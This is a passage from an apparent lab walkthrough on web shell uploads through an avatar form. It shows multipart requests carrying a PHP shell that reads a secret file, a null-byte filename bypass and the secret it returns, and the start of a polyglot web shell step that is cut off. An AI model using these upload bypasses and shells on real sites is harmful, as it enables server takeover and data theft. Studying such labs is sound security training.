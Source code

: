         PNG
        ...
    ...
    https://<lab_url>/files/avatars/1.png       GET
    ...
    ```

    - Try to upload the shell, the message  
    ***Sorry, only JPG & PNG files are allowed. Sorry, there was an error uploading your file.*** will appear.

    ```plaintext
    https://<lab_url>/my-account/avatar         POST
        -----------------------------123456789012345678901234567890
        Content-Disposition: form-data; name="avatar"; filename="shell.php"
        Content-Type: application/x-php

        <?php echo file_get_contents("/home/carlos/secret"); ?>
        ...
    ...
    ```

    - Send the second **/my-account/avatar POST** request to the **Repeater**.
    - Set the **filename** to **shell.php%00.png** (**null byte extension**) and repeat the request, the message
    ***The file avatars/shell.php has been uploaded.*** will appear.

    ```plaintext
    mbJNQTJ3knonwoJvxyCPW09LH8aICSGC
    ```

6. #### **Remote code execution via polyglot web shell upload**

    - Upload an image and take note of the URL flow and the parameters sent, the message  
    ***The file avatars/1.png has been uploaded.*** will appear.

    ```plaintext
    https://<lab_url>/my-account/avatar         POST
        -----------------------------123456789012345678901234567890
        Content-Disposition: form-data; name="avatar"; filename="1.png"
        Content-Type: image/png

        PNG
        ...
    ...
    https://<lab_url>/files/avatars/1.png       GET
    ...
    ```

    - Try to upload the shell, the message  
    ***Error: file is not a valid image. Sorry, there was an error uploading your file.*** will appear.

    ```plaintext
    https://<lab_url>/my-account/avatar         POST
        -----------------------------123456789012345678901234567890
        Content-Disposition: form-data; name="avatar"; filename="shell.php"
        Content-Type: application/x-php
